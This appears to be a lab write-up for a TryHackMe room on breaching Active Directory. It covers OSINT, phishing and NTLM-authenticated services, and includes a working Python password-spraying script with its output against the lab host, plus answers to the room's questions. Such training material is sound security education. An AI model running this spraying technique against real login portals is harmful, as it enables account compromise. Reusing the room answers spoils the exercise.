 ## Network Diagram :

![image](https://github.com/user-attachments/assets/a35a439d-bea6-4b15-8a03-6b06485eaa9e)

## Task 1 : Introduction to AD Breaches

- Before we can exploit AD misconfigurations for privilege escalation, lateral movement, and goal execution, we need initial access first. You need to acquire an initial set of valid **AD credentials**.
- Due to the number of AD services and features, the attack surface for gaining an initial set of AD credentials is usually significant.

### Techniques to recover AD credentials in this room -

1. NTLM Authenticated Services
2. LDAP Bind Credentials
3. Authentication Relays
4. Microsoft Deployment Toolkit
5. Configuration Files

## Task 2 : OSINT and Phishing

### OSINT -

OSINT is used to discover information that has been publicly disclosed. In terms of AD credentials, this can happen for several reasons, such as:

- Users who ask questions on public forums such as Stack Overflow but disclose sensitive information such as their credentials in the question.
- Developers that upload scripts to services such as Github with credentials hardcoded.
- Credentials being disclosed in past breaches since employees used their work accounts to sign up for other external websites. Websites such as HaveIBeenPwned and DeHashed provide excellent platforms to determine if someone's information, such as work email, was ever involved in a publicly known data breach.

### Phishing -

- Phishing is another excellent method to breach AD.
- Phishing usually entices users to either provide their credentials on a malicious web page or ask them to run a specific application that would install a Remote Access Trojan (RAT) in the background.
- This is a prevalent method since the RAT would execute in the user's context, immediately allowing you to impersonate that user's AD account.

> 1.  What popular website can be used to verify if your email address or password has ever been exposed in a publicly disclosed data breach? - `haveibeenpwned`

## Task 3 : NTLM Authenticated Services

- NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM.
- This authentication mechanism is heavily used by the services on a network.
-  However, services that use NetNTLM can also be exposed to the internet.

The following are some of the popular examples:

    1. Internally-hosted Exchange (Mail) servers that expose an Outlook Web App (OWA) login portal.
    2. Remote Desktop Protocol (RDP) service of a server being exposed to the internet.
    3. Exposed VPN endpoints that were integrated with AD.
    4. Web applications that are internet-facing and make use of NetNTLM.

- NTLM Authentication, allows the application to play the role of a middle man between the client and AD. All authentication material is forwarded to a Domain Controller in the form of a challenge, and if completed successfully, the application will authenticate the user.
- This means that the application is authenticating on behalf of the user and not authenticating the user directly on the application itself. This prevents the application from storing AD credentials, which should only be stored on a Domain Controller. 

![image](https://github.com/user-attachments/assets/e3cfc683-bd38-4052-948a-ec8e1468c523)

### Brute-force Login Attacks -

Since most AD environments have account lockout configured, we won't be able to run a full brute-force attack. Instead, we need to perform a password spraying attack. 


A service is runnning at https://ntlmauth.za.tryhackme.com prompts us for Windows Authentication credentials:

![image](https://github.com/user-attachments/assets/c5146601-2f29-43e9-a5d6-d1249f0dfbfc)

Using the following python script, we can perform password spraying attack

```python
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

**Results**
```bash
┌──(kali㉿kali)-[~/THM/BreachingAD]
└─$ python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com/
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
[-] Failed login with Username: henry.black
[-] Failed login with Username: joanne.davies
[-] Failed login with Username: mark.oconnor
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found
```
> 1. What is the name of the challenge-response authentication mechanism that uses NTLM? - `netNTLM`
> 
> 2. What is the username of the third valid credential pair found by the password spraying script? - `gordon.stevens`
> 
> 3. How many valid credentials pairs were found by the password spraying script? - `4`
> 
> 4. What is the message displayed by the web application when authenticating with a valid credential pair? - `Hello World`

